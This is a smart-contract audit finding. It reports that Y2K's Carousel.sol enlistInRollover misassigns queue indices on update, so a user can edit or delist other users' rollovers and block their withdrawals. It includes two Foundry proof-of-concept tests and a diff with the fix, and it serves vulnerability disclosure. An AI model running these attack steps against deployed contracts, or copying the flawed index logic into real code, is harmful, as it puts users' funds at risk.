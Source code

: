 Dug

medium

# Updating a queued rollover corrupts rollover accounting

## Summary

If a user makes subsequent calls to `enlistInRollover`, the accounting of `rolloverQueue` items becomes corrupted. 

## Vulnerability Detail

In `Carousel.sol`, the `enlistInRollover` function handles two primary cases, depending on whether the user has already enlisted in a rollover. 

If a user has an existing rollover in the queue, it will be updated in place with the new parameters. If the user does not have an existing rollover, a new one will be created and added to the end of queue. 

However, as the function resolves, it will always set `ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;` 

```solidity
if (ownerToRollOverQueueIndex[_receiver] != 0) {
    // if so, update the queue
    uint256 index = getRolloverIndex(_receiver);
    rolloverQueue[index].assets = _assets;
    rolloverQueue[index].epochId = _epochId;
} else {
    // if not, add to queue
    rolloverQueue.push(
        QueueItem({
            assets: _assets,
            receiver: _receiver,
            epochId: _epochId
        })
    );
}
ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
```

This causes major issues should a user make subsequent calls to `enlistInRollover` .

Here's the basic scenario:
- Alice enlists in the rollover queue
- Bob then enlists in the rollover queue
- Alice calls `enlistInRollover` again, updating her rollover, which unfortunately also sets `ownerToRollOverQueueIndex[address(Alice)]` to the last index in the queue, which is Bob's rollover
- Alice could then make changes to Bob's rollover with another call to `enlistInRollover` or delist it entirely

## Impact

This can lead to multiple issues including other users' rollovers becoming edited or delisted and the inability of a user to withdraw funds due to bad array pointers.

### Proof of concepts
```solidity
function testCanDelistOtherRollovers() public {
    // create first epoch
    uint40 _epochBegin = uint40(block.timestamp + 1 days);
    uint40 _epochEnd = uint40(block.timestamp + 2 days);
    uint256 _epochId = 1;

    vault.setEpoch(_epochBegin, _epochEnd, _epochId);

    helperDepositInEpochs(_epochId, USER, false);
    helperDepositInEpochs(_epochId, USER2, false);

    // enlist first user in rollover for next epoch
    vm.startPrank(USER);
    vault.enlistInRollover(_epochId, 1 ether, USER);
    vm.stopPrank();

    // enlist second user in rollover for next epoch
    vm.startPrank(USER2);
    vault.enlistInRollover(_epochId, 8 ether, USER2);
    vm.stopPrank();

    // First user hijacks second user's rollover & delists it
    vm.startPrank(USER);
    vault.enlistInRollover(_epochId, 1 ether, USER);
    vault.delistInRollover(USER);
    vm.stopPrank();

    // resolve first epoch
    vm.warp(_epochEnd + 1 days);
    vm.startPrank(controller);
    vault.resolveEpoch(_epochId);
    vm.stopPrank();

    // create second epoch
    _epochBegin = uint40(block.timestamp + 1 days);
    _epochEnd = uint40(block.timestamp + 2 days);
    _epochId = 2;

    vault.setEpoch(_epochBegin, _epochEnd, _epochId);

    // simulate prev epoch win
    stdstore
        .target(address(vault))
        .sig("claimTVL(uint256)")
        .with_key(1)
        .checked_write(1000 ether);

    // let relayer rollover for users
    vm.startPrank(relayer);
    vault.mintRollovers(_epochId, 5000);
    vm.stopPrank();

    // assert only first user was rolled over
    assertEq(vault.rolloverAccounting(_epochId), 1);
    assertEq(vault.balanceOf(USER2, _epochId), 0);
}

function testCantWithdraw() public {
    // create first epoch
    uint40 _epochBegin = uint40(block.timestamp + 1 days);
    uint40 _epochEnd = uint40(block.timestamp + 2 days);
    uint256 _epochId = 1;
    uint256 _emissions = 100 ether;

    deal(emissionsToken, address(vault), 100 ether, true);
    vault.setEpoch(_epochBegin, _epochEnd, _epochId);
    vault.setEmissions(_epochId, _emissions);

    // first user deposits and makes small rollover
    vm.startPrank(USER);
    IERC20(UNDERLYING).approve(address(vault), 2 * relayerFee);
    vault.deposit(1, 2 * relayerFee, USER);
    vault.enlistInRollover(_epochId, relayerFee, USER);
    vm.stopPrank();

    // second user deposits and makes sets rollover
    helperDepositInEpochs(_epochId, USER2, false);
    vm.prank(USER2);
    vault.enlistInRollover(_epochId, 10 ether, USER2);

    // first user updates & delists rollover
    vm.startPrank(USER);
    vault.enlistInRollover(_epochId, 2 * relayerFee, USER);
    vault.delistInRollover(USER);
    vm.stopPrank();

    // resolve first epoch
    vm.warp(_epochEnd + 1 days);
    vm.startPrank(controller);
    vault.resolveEpoch(_epochId);
    vm.stopPrank();

    assertEq(vault.balanceOf(USER2, _epochId), 10 ether);
    assertEq(vault.balanceOfEmissions(USER2, _epochId), 10 ether);

    vm.prank(USER2);
    vm.expectRevert(); // Index out of bounds
    vault.withdraw(_epochId, 10 ether, USER2, USER2);
}
```

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L232-L271

## Tool used

Manual Review

## Recommendation

If a users existing rollover is updated, the `ownerToRollOverQueueIndex` should not be updated to the last item in the queue. This should only happen when adding a new rollover to the queue.

```diff
    if (ownerToRollOverQueueIndex[_receiver] != 0) {
        // if so, update the queue
        uint256 index = getRolloverIndex(_receiver);
        rolloverQueue[index].assets = _assets;
        rolloverQueue[index].epochId = _epochId;
    } else {
        // if not, add to queue
        rolloverQueue.push(
            QueueItem({
                assets: _assets,
                receiver: _receiver,
                epochId: _epochId
            })
        );
+       ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
    }
-   ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
```

